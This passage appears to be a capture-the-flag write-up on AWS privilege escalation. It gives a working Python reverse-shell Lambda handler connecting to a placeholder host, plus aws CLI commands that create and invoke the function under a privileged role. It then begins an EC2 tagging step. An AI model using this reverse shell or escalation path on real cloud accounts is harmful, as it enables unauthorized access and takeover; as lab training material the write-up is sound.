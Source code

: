 The reason these did not show up in `enumerate-iam` is probably because `enumerate-iam` only does a naive bruteforce by attempting to invoke each privilege without any specific format as required in this challenge (e.g. `arn:aws:lambda:ap-southeast-1:051751498533:function:${aws:username}-*`)

At this point we can consult this [great resource](https://github.com/BishopFox/iam-vulnerable/blob/main/README.md) by Bishop Fox that provides a nice table breakdown of different AWS privilege escalation techniques. Our current permissions correspond to technique 15 [here](https://bishopfox.com/blog/privilege-escalation-in-aws), which involves creating a Lambda function that assumes a privileged role, thus executing code with higher privileges.

First, we create a Python script that gives us a reverse shell.

```python
import os
import socket
import subprocess

def lambda_handler(event, context):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("HOST", PORT))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/sh", "-i"])
```

Then we zip this into a zip file like `function.zip`, and create a lambda function adhering to the name format above. Using `--role`, we pass the `lambda_agent_development_role` to this lambda function.

{% code overflow="wrap" %}
```
aws lambda create-function --function-name function:user-b5089e5404f049168e93e51cdba5d212-test --runtime python3.9 --role arn:aws:iam::051751498533:role/lambda_agent_development_role --handler code.lambda_handler --zip-file fileb://function.zip --timeout 100
```
{% endcode %}

After invoking the lambda function, we get a reverse shell on our listener!

{% code overflow="wrap" %}
```
aws lambda invoke --function-name user-b5089e5404f049168e93e51cdba5d212-test output.txt
```
{% endcode %}

### Getting ec2\_agent\_role

Now that we have access to `lambda_agent_development_role`, let's see how we can leverage our newfound permissions. After enumerating permissions again with our trusty enumeration scripts, we find out that we now have the permission to create EC2 instances.

At this point we need to remember this piece of information given to us early in the challenge, telling us the tags that are required.

{% code overflow="wrap" %}
```
All EC2 computing instances should be tagged with the key: 'agent' and the value set to your username. Otherwise, the antivirus cleaner will wipe out the resources.
```
{% endcode %}

